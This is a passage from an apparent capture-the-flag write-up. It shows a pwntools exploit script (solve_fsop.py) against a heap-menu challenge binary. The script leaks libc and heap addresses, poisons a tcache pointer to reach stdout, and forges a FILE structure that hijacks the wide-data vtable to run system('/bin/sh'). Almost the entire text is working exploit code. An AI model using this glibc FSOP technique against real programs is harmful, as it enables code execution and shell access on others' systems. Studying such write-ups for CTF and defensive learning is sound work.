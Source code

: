 ```py
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

def update(index, content):
    r.sendlineafter(b'\n>>', b'3')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())
    r.sendlineafter(b'Enter data:\n', content)

def delete(index):
    r.sendlineafter(b'\n>>', b'4')
    r.sendlineafter(b'Enter entry index:\n', str(index).encode())

# Leak libc address
create(0x1000, b"A")
create(0x1000, b"B")
delete(0)
show(0)
libc_base = u64(r.recvline().rstrip().ljust(8, b"\x00")) - 0x219ce0
libc.address = libc_base

# Leak heap address, free two chunks to be placed in tcache
create(0x200, b"A")
create(0x200, b"B")
create(0x1000, b"C")
delete(2)
show(2)
heap_base = u64(r.recvline().rstrip().ljust(8, b"\x00")) * 0x1000
delete(3)

# Overwrite forward pointer with stdout in the tcache
stdout = libc.sym['_IO_2_1_stdout_']
last_free = heap_base + 0x4b0
target_enc = stdout ^ last_free >> 12
update(3, p64(target_enc))

# Construct the fake file structure for spawning a shell
fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end = libc.sym['system']
fake._IO_save_base = libc.address + 0x0000000000163830  # add rdi, 0x10 ; jmp rcx
fake._IO_write_end = u64(b'/bin/sh'.ljust(8,b'\x00'))
fake._lock = libc.sym['_IO_stdfile_1_lock']
fake._codecvt = stdout + 0xb8
fake._wide_data = stdout + 0x200
fake_vtable = libc.sym['_IO_wfile_jumps'] - 0x18
fake.unknown2 = p64(0)*2 + p64(stdout+0x20) + p64(0)*3 + p64(fake_vtable)

# Write the fake file structure to stdout
create(0x208, b"A")
create(0x208, bytes(fake))

r.interactive("$ ")
```
{: file="solve_fsop.py"}
